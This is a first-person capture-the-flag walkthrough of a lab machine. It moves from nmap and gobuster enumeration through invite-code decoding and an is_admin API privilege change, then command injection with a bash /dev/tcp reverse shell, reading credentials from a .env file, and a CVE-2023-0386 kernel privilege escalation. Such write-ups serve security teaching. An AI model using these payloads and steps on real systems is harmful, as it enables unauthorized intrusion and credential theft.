





I begin by performing a full network scan against the target machine in order to identify open ports, running services, and potential attack vectors.
nmap 10.10.11.221 -Pn -sC -sV -O -oN scan_full.txt
Once the scan is completed, I add the discovered domain to the /etc/hosts file
to properly resolve the hostname during further enumeration.
Next, I perform directory enumeration using Gobuster to identify hidden endpoints and resources.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://2million.htb -b 301This scan reveals two interesting directories: /invite and /login.
Inside the /invite directory, I discover a reference to an obfuscated JavaScript
file named inviteapi.min.js.
After deobfuscating the script using De4JS, I uncover two important API endpoints:
/api/v1/invite/verify/api/v1/invite/how/to/generateUsing Burp Suite, I send a POST request and analyze the server response. The data appears to be encrypted using ROT13.

After decrypting the message, it instructs me to send a POST request to
/api/v1/invite/generate in order to obtain an invite code.

The returned invite code is Base64 encoded, so I decode it using the following command:
echo "NlJXOEktMlhOTlAtUFpOSkwtVFlaR04=" | base64 -dWith this decoded invite code, I am able to register a new user, confirming that user creation is restricted to invite-based registrations.
After registering, I log in and gain access to the /home dashboard.
The /access page allows users to download VPN configuration files.
By intercepting the download request with Burp Suite, I confirm that the file is an OpenVPN configuration.
Further API enumeration of /api/v1 reveals administrative authentication endpoints.

I attempt a PUT request to
/api/v1/admin/settings/update, which initially fails due to missing
JSON headers and required parameters.

After setting is_admin=1, the request succeeds, and I confirm that I now have
administrative privileges.
While generating a VPN configuration from /vpn/generate, I notice that user
input is processed by PHP functions without proper sanitization.
This allows me to successfully exploit a command injection vulnerability. I inject a Base64-encoded reverse shell payload:
bash -i >& /dev/tcp/IP/PORT 0>&1
Once the shell is established, I discover the admin user and retrieve
the user.txt flag.
During post-exploitation, I find a hidden .env file containing database
credentials for the admin user.
ls -al
cat .envUsing these credentials, I successfully log in via SSH.
After further enumeration, I discover an email referencing a vulnerable kernel version.
Running uname -a confirms that the system is vulnerable to
CVE-2023-0386.
I clone the exploit, transfer it to the target machine, follow the PoC steps, and achieve full privilege escalation.